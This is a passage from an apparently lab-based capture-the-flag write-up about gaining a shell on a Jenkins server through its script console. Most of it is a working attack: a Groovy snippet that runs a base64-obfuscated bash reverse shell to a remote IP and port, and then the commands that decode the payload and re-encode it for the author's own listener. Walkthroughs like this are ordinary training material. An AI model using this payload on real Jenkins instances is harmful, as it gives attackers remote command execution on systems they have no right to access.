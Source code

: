 

![Pasted image 20210818192912.png](/assets/images/internal/jenkinsadmin.png)

Now that I am in. I'm going to try to grab a reverse shell with the /script and a common reverse shell injection command from HackTrickxyz

Here is a code snippit to use from hacktricks ( https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins) 

```jenkins
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

The echo command is base 64 encrypted, let's decrypt it and change it.

```bash
──(raindayzz㉿redfish)-[~/TryHackMe/Internal2]
└─$ echo -n "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==" | base64 -d
bash -c 'bash -i >& /dev/tcp/10.10.14.22/4343 0>&1'
```

Okay cool, let's change the IP & port to match our kali system and re-encrypt it. 

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Internal2]
└─$ echo -n "bash -c 'bash -i >& /dev/tcp/10.9.11.106/135 0>&1'" | base64                                              1 ⨯
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjExLjEwNi8xMzUgMD4mMSc=
```
